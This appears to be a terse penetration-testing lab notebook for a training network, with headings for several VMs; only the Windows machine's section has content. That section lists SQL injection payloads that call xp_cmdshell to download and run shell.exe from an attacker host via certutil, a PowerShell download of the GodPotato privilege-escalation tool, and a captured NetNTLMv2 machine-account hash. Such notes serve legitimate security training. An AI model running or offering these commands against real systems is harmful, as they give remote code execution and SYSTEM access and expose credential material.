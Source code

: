 # VM 3
- 192.168.214.120
## Foothold


# VM 4
- 192.168.214.121 Windows
## FootHold
- Ez SQLi
    ``` 
    ';EXEC master.dbo.xp_cmdshell 'ping 192.168.45.219';--
    ';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://192.168.45.219/shell.exe C:\\Windows\temp\shell.exe';--
    ';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\shell.exe';--
    ```
## Root 
- SeImpersonate Permission Found & NET4.0 -> GodPotato
  ```
    iwr -uri http://192.168.45.219/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
    .\GodPotato-NET4.exe -cmd 'whoami'
    .\GodPotato-NET4.exe -cmd 'C:\Windows\temp\shell.exe'
   ```
- Interesting Info
    1. ```  Version: NetNTLMv2
  Hash:    WEB02$::MEDTECH:1122334455667788:757d0de376d8456d510a56bbc91d2ab2:0101000000000000229fe7efdce0da013a25e15c16fb223a000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000 ```
    2. 


# VM 5
- 192.168.214.122

